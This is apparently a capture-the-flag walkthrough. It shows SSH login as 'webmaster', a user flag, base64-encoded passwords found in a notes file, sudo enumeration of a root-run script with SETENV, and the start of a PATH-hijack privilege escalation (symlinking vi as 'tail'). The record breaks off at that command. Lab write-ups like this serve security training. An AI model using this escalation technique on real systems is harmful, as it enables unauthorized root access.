 # SSH connection

>[!warning] Notes
>- After trying all credentials, we have one that work, it is for the user `webmaster`

>[!hint] USER FLAG
>`[user_flag_8339915c9a454657bd60ee58776f4ccd]`

>[!warning] Notes
>- We then find a file named `notes.txt` which contains :
>```bash
>webmaster for web stuff - webmaster:bWVyY3VyeWlzdGhlc2l6ZW9mMC4wNTZFYXJ0aHMK
linuxmaster for linux stuff - linuxmaster:bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==
>```
>- It is base64 encoding, and when cleared, give the password of the `linuxmaster` user

**We connect as `linuxmaster`**

# Permissions enumeration

**We first try the obvious**

>[!danger] Command
>```bash
>sudo -l

>[!success] Output
>```bash
>(root : root) SETENV: /usr/bin/check_syslog.sh

>[!question] Explanations
> - This output means that we have the right to execute the `/usr/bin/check_syslog.sh` script, and that it has root permission.
> - `SETENV` means that it can be run inside a preserved environment.

>[!warning] Notes
>- The script contains the following :
>```bash
>#!/bin/bash
tail -n 10 /var/log/syslog
>```
>- `tail` is a program that output the last part of files (the program by itself is useless for us)

# Privilege escalation

>[!warning] Notes
>- So we want to use this script, because we don't have anything else (`linpeas` script didn't give much useful informations)
>- To use this script for a root shell, we have to overwrite the program ran, aka `tail`

>[!danger] Command
>```bash
>ln -sf /usr/bin/vi tail
